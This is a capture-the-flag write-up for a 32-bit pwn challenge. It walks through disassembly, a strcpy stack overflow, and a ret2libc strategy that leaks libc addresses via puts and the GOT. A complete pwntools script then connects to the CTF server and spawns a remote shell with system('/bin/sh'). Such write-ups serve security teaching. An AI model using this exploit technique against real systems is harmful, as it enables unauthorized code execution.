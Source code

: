 # OldSchool-NewAge

- **Category:** pwn
- **Points:** 75
- **Challenge Description:**
```
It all started with a leak bang
```

## Writeup

We are provided with a tar archive that contains two files: an executable and
a shared object of a libc. Let's first run file on them :

```bash
$ file vuln4 libc.so.6
vuln4:     ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked
libc.so.6: ELF 32-bit LSB shared object, Intel 80386, version 1 (GNU/Linux), dynamically linked
```

We can start assuming that this challenge will have to do with leaking stuff
from libc (thanks to the presence of the library and the hint in the challenge
description).
Let's first take a look at the main function of the program with r2 :

```
   sym.main ();
│           ; var int local_3ah @ ebp-0x3a
│           ; var int local_4h @ ebp-0x4
│           ; var int local_4h_2 @ esp+0x4
│           0x080484ea      8d4c2404       lea ecx, esp + 4            ; 4
│           0x080484ee      83e4f0         and esp, 0xfffffff0
│           0x080484f1      ff71fc         push dword [ecx - 4]
│           0x080484f4      55             push ebp
│           0x080484f5      89e5           mov ebp, esp
│           0x080484f7      51             push ecx
│           0x080484f8      83ec44         sub esp, 0x44               ; 'D'
│           0x080484fb      83ec0c         sub esp, 0xc
│           0x080484fe      6800860408     push str.This_time_it_is_randomized... ; 0x8048600 ; "This time it is randomized..."
│           0x08048503      e898feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048508      83c410         add esp, 0x10
│           0x0804850b      83ec0c         sub esp, 0xc
│           0x0804850e      681e860408     push str.You_should_find_puts_yourself ; 0x804861e ; "You should find puts yourself"
│           0x08048513      e888feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048518      83c410         add esp, 0x10
│           0x0804851b      a1a4980408     mov eax, dword [obj.stdout] ; [0x80498a4:4]=0
│           0x08048520      83ec0c         sub esp, 0xc
│           0x08048523      50             push eax
│           0x08048524      e847feffff     call sym.imp.fflush         ; int fflush(FILE *stream)
│           0x08048529      83c410         add esp, 0x10
│           0x0804852c      a1a0980408     mov eax, dword [obj.stdin]  ; [0x80498a0:4]=0
│           0x08048531      83ec04         sub esp, 4
│           0x08048534      50             push eax
│           0x08048535      68c8000000     push 0xc8                   ; 200
│           0x0804853a      8d45c6         lea eax, ebp - 0x3a
│           0x0804853d      50             push eax
│           0x0804853e      e83dfeffff     call sym.imp.fgets          ; char *fgets(char *s, int size, FILE *stream)
│           0x08048543      83c410         add esp, 0x10
│           0x08048546      83ec0c         sub esp, 0xc
│           0x08048549      8d45c6         lea eax, ebp - 0x3a
│           0x0804854c      50             push eax
│           0x0804854d      e879ffffff     call sym.copy_it
│           0x08048552      83c410         add esp, 0x10
│           0x08048555      83ec0c         sub esp, 0xc
│           0x08048558      683c860408     push str.done               ; 0x804863c ; "done!"
│           0x0804855d      e83efeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x08048562      83c410         add esp, 0x10
│           0x08048565      b800000000     mov eax, 0
│           0x0804856a      8b4dfc         mov ecx, dword [local_4h]
│           0x0804856d      c9             leave
│           0x0804856e      8d61fc         lea esp, ecx - 4
└           0x08048571      c3             ret
```

So we have a call to `fgets` to read 0xc8 characters into a stack-allocated
buffer, which is then copied to another buffer using the `copy_it` function.
Let's have a look at it:

```
│   sym.copy_it ();
│           ; var int local_12h @ ebp-0x12
│              ; CALL XREF from 0x0804854d (sym.main)
│           0x080484cb      55             push ebp
│           0x080484cc      89e5           mov ebp, esp
│           0x080484ce      83ec18         sub esp, 0x18
│           0x080484d1      83ec08         sub esp, 8
│           0x080484d4      ff7508         push dword [ebp + 8]
│           0x080484d7      8d45ee         lea eax, ebp - 0x12
│           0x080484da      50             push eax
│           0x080484db      e8b0feffff     call sym.imp.strcpy         ; char *strcpy(char *dest, const char *src)
│           0x080484e0      83c410         add esp, 0x10
│           0x080484e3      b800000000     mov eax, 0
│           0x080484e8      c9             leave
└           0x080484e9      c3             ret
```

`copy_it` uses `strcpy`, which means that it doesn't take into account the
length of the string during the copy; since we are calling it with pointers to
stack-allocated buffers things are going to get nasty.
If we try to input a large number of chars, we get a segmentation fault and
the control of EIP. We need to build a strategy to exploit this.

What we know:
- ASLR is enabled;
- the NX bit is enabled;
- the calling convention puts the arguments on the stack;
- only a few libc functions are available to us: `fflush`, `fgets`, `strcpy`,
and `puts`).

## Strategy
Since the arguments are on the stack, we can build our own fake stack frames to
call functions. Considering the available functions, we can see that we can use
`puts`, which will allow us to read arbitrary memory locations; and this is
where the leaking part of this challenge lies: we can leak the addresses of
libc functions by reading from the **GOT** with `puts`, and build on that.
We can outline the following strategy :

1. call `puts(address of fgets)` and leak the address of `fgets`;
2. compute the base address of the libc (*leaked fgets* - *fgets in libc*);
3. compute the address of the `system` function;
4. compute the address of **"/bin/sh"** in the libc;
5. return to `_start`;
6. call `system("/bin/sh")`;
7. ???
8. Profit!

Note : returning to `_start` allows us to reset the stack to an uncorrupted
state, and to exploit the program again without actually crashing it (and
re-randomizing the addresses again).

Then, we just have to navigate to the `ctfuser` home directory and read the
flag!
```
$ cat /home/ctfuser/flag
SharifCTF{7af9dab81dff481772609b97492d6899}
```

## Exploit script

```python
from pwn import *

overflow_offset = 22

puts_bin_addr = 0x80483a0
fgets_got = 0x804986c

main_addr = 0x80484ea
_start_addr = 0x80483d0

fgets_libc_addr = 0x0005e150 # 0x00065c50 locally
bin_sh_libc_addr = 0x0015ba0b # 0x0017882a locally
system_libc_addr = 0x0003ada0 # 0x0003c7d0 locally

# Goal : Leak puts addr and call system
# step 1 : Leak fgets
# - Build a false stack frame
# - Call puts with delta GOT offset as argument
# - Read addr and compute delta

p = remote("ctf.sharif.edu",4801)
p.recv(4096)

stage1 = "A"*overflow_offset
stage1 += p32(puts_bin_addr)
stage1 += p32(_start_addr) # return address
stage1 += p32(fgets_got)

log.info("Leaking fgets got ...")
p.sendline(stage1)

leak = p.recv(4096)

fgets_got_entry = u32(leak[0:4])

log.info("fgets got address : {}".format(hex(fgets_got_entry)))

libc_base_addr = fgets_got_entry - fgets_libc_addr

bin_sh_addr = libc_base_addr + bin_sh_libc_addr
system_addr = libc_base_addr + system_libc_addr

log.info("libc base addr is : {}".format(hex(libc_base_addr)))
log.info("/bin/sh string addr is : {}".format(hex(bin_sh_addr)))
log.info("system addr is : {}".format(hex(system_addr)))


# step 2 : exploit
# - Call main again
# - Call system("/bin/sh")
# - Profit !

log.info("Getting remote shell ...")
stage2 = "A"*overflow_offset
stage2 += p32(system_addr)
stage2 += p32(_start_addr)
stage2 += p32(bin_sh_addr)

p.sendline(stage2)

# Remote shell
p.interactive()
```
